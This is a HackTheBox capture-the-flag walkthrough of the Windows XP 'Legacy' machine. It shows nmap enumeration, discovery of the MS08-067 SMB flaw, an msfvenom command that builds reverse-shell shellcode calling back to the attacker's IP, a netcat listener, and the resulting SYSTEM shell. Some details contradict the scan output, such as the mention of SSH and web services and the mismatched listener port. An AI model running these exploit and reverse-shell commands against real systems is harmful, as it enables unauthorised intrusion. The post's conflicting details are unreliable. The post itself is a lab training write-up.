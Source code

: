 ```yaml
---
layout: post
title: "HackTheBox - Legacy"
description: "Walkthrough of Legacy box on Hackthebox."
thumb_image: "documentation/legacythumb.png"
tags: [ hackthebox ]
---
```


{% include image.html path="documentation/legacy.webp"
path-detail="documentation/legacy.webp"
alt="HTB Legacy" %}

## HTB - Legacy

IP - 10.10.10.4

### Overview

This box was an easy level windows box on HTB created by [ch4p](https://www.hackthebox.eu/home/users/profile/1), it started with finding that the box is running a vulnerable `samba server` and the OS version of the box, then we use `ms08-067 exploit` to get a shell on the box.

### Enumeration

As always let’s start off with nmap script nmap -sC for default scripts ~~Alright, if it isn’t obvious yet I am a IPPSEC fanboi.~~ Aight, firing up nmap to scan all open ports on the box.

{% highlight bash %}
┌─[fumenoid@parrot]─[~/Desktop/Fumenoid/Pentest/HTB/Legacy]
└──╼ $sudo nmap -sC -sV -o nmap/initial 10.10.10.4
{% endhighlight %} 
And here is our nmap result
{% highlight bash %}
Nmap scan report for 10.10.10.4
Host is up (0.084s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -3h58m16s, deviation: 1h24m50s, median: -4h58m16s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:cc:9c (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-11-02T08:38:51+02:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.92 seconds
{% endhighlight %}

Open services SSH on port 22 and webserver on port 80. As there aren’t many attacks possible on ssh so I am gonna shift my focus on the web server.

#### Foothold

The nmap is detecting OS version, `Windows XP`. Windows XP is pretty old and so the services running probably have some vulnerability. Samba seems like our attack vector so let’s enumerate Samba.

{% highlight bash %}
┌─[fumenoid@parrot]─[~/Desktop/Fumenoid/Pentest/HTB/Legacy]
└──╼ $nmap -Pn --script smb-vuln* -p 445 -o nmap/smb_scan 10.10.10.4
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-02 15:24 IST
Nmap scan report for 10.10.10.4
Host is up (0.086s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Nmap done: 1 IP address (1 host up) scanned in 12.23 seconds
{% endhighlight %}

And seems like the smb server is vulnerable to `smb-vuln-ms08-067`.

### Exploitation

After Searching a bit, I reached this [ms08-067 python exploit](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py).

The exploit script requires three arguments, target box IP, the port of vulnerable service and the OS info from a list of [1-8] menu it present to us. `6` option is for `Windows XP English` so I will be trying that first tho before that, we need to create a payload to get a reverse shell using `msfvenom` and replace it with the shellcode in the `exploit`.

{% highlight bash %}
┌─[fumenoid@parrot]─[~/Desktop/Fumenoid/Pentest/HTB/Legacy]
└──╼ $msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.33 LPORT=9889 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
{% endhighlight %} 

Replace the shell code in the script and start a netcat listner using `rlwrap nc -lvnp 9889`. Note : If this exploit fails better reset the box.

{% highlight bash %}
┌─[fumenoid@parrot]─[~/Desktop/Fumenoid/Pentest/HTB/Legacy]
└──╼ $python ms09-067.py 10.10.10.4 6 9889
#######################################################################
#   MS08-067 Exploit
#   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
[REDACTED]
Windows XP SP3 English (NX)

[-]Initiating connection
[-]connected to ncacn_np:10.10.10.4[\pipe\browser]
Exploit finish
{% endhighlight %} 

Checking our `netcat` listner.

{% highlight bash %}
┌─[fumenoid@parrot]─[~/Desktop/Fumenoid/Pentest/HTB/Legacy]
└──╼ $rlwrap nc -lvnp 9889
[sudo] password for fumenoid: 
listening on [any] 443 ...
connect to [10.10.14.33] from (UNKNOWN) [10.10.10.4] 1028
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>whoami
NT Authority\System
{% endhighlight %} 

Now we can read both `user.txt` and `root.txt`.

###### Hope you learned something new, if you face any issues / have any query, feel free to contact me on social media.